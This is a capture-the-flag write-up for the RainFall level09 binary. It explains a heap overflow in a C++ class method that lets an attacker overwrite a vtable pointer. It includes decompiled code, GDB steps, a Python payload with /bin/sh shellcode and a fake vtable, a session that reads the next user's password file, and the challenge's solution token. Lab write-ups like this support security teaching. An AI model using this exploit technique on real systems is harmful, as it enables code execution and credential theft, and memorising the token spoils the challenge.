 # level09

1. Decompilation with Ghidra

    The binary contains a C++ program with a class `N` that has a dangerous `setAnnotation` method:

    ```c
    /* N::setAnnotation(char*) */
    void __thiscall N::setAnnotation(N *this, char *param_1)
    {
        size_t __n;
        
        __n = strlen(param_1);
        memcpy(this + 4, param_1, __n);  // ⚠️ No size check!
        return;
    }

    /* N::N(int) */
    void __thiscall N::N(N *this, int param_1)
    {
        *(undefined ***)this = &PTR_operator+_08048848;
        *(int *)(this + 0x68) = param_1;
        return;
    }

    void main(int param_1, int param_2)
    {
        N *this;
        N *this_00;
        
        if (param_1 < 2) {
            _exit(1);
        }
        this = (N *)operator.new(0x6c);
        N::N(this, 5);
        this_00 = (N *)operator.new(0x6c);
        N::N(this_00, 6);
        N::setAnnotation(this, *(char **)(param_2 + 4));
        (*(code *)**(undefined4 **)this_00)(this_00, this);
        return;
    }
    ```

2. Analysis of the vulnerability

    The vulnerability:

    - The program allocates two C++ objects of class `N` on the heap (108 bytes each).
    - Each object has a vtable pointer at offset 0, annotation data at offset 4, and a value at offset 0x68.
    - `N::setAnnotation()` copies `argv[1]` to `this + 4` using `memcpy()` without bounds checking.
    - If `argv[1]` is longer than 104 bytes, it overflows into the second object.
    - The vtable pointer of the second object can be overwritten.
    - The program then calls a virtual function on the second object: `(*(code *)**(undefined4 **)this_00)(this_00, this)`

    The virtual function call does **double dereferencing**:

    1. Read vtable pointer → get address A
    2. Read at address A → get address B (function pointer)
    3. Jump to address B

    **Solution:** Create a fake vtable structure that points to our shellcode!

3. Finding heap addresses with GDB

    ```bash
    gdb ./level9
    (gdb) break *0x0804861c  # After first operator.new
    (gdb) break *0x0804863e  # After second operator.new
    (gdb) run AAAA

    # At first breakpoint
    (gdb) info registers eax
    eax = 0x0804a008  # Object 1

    (gdb) continue

    # At second breakpoint
    (gdb) info registers eax
    eax = 0x0804a078  # Object 2
    ```

    Calculate addresses:

    ```
    Object 1:     0x0804a008
    Copy starts:  0x0804a00c (obj1 + 4)
    Object 2:     0x0804a078
    Fake vtable:  0x0804a07c (after overwritten vtable)
    Shellcode:    0x0804a080 (after fake vtable)
    ```

4. Exploitation

    Memory layout after overflow:

    ```
    Heap:
    0x0804a008: [Object 1: 108 bytes (0x6c)]
                ├─ [+0x00] vtable (4 bytes)
                ├─ [+0x04] annotation (100 bytes) ← setAnnotation writes here
                └─ [+0x68] value (4 bytes)
                
    0x0804a074: [Padding: 4 bytes] ← malloc metadata

    0x0804a078: [Object 2: 108 bytes (0x6c)]
                ├─ [+0x00] vtable (4 bytes) 🎯 TARGET
                ├─ [+0x04] annotation (100 bytes)
                └─ [+0x68] value (4 bytes)
    ```

    Payload structure:

    ```python
    #!/usr/bin/env python
    import sys

    # Shellcode execve("/bin/sh") - 21 bytes
    shellcode = "\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68"
    shellcode += "\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80"

    # Structure:
    # [padding] [fake_vtable addr] [shellcode addr] [shellcode]

    padding = "\x90" * 108
    fake_vtable_addr = "\x7c\xa0\x04\x08"  # 0x0804a07c
    shellcode_addr = "\x80\xa0\x04\x08"    # 0x0804a080

    payload = padding + fake_vtable_addr + shellcode_addr + shellcode
    sys.stdout.write(payload)
    ```

    Memory after overflow:

    ```
    0x0804a00c: [NOPs: 108 bytes]           ← Fills obj1 annotation
    0x0804a078: [0x0804a07c]                ← Vtable obj2 (points to fake vtable)
    0x0804a07c: [0x0804a080]                ← Fake vtable (points to shellcode)
    0x0804a080: [\x31\xc9\xf7\xe1...]       ← Shellcode execve("/bin/sh")
    ```

    Execution flow:

    1. Program calls virtual function on obj2
    2. Reads vtable at 0x0804a078 → finds 0x0804a07c
    3. Reads at 0x0804a07c → finds 0x0804a080
    4. Jumps to 0x0804a080 → **executes shellcode!** 🎉

    Full exploitation session:

    ```bash
    level9@RainFall:~$ ./level9 $(python /tmp/exploit.py)
    $ whoami
    bonus0
    $ cat /home/user/bonus0/.pass
    [PASSWORD]
    ```

5. Token discovered

    The token found `f3f0004b6f364cb5a4147e9ef827fa922a4861408845c26b6971ad770d906728
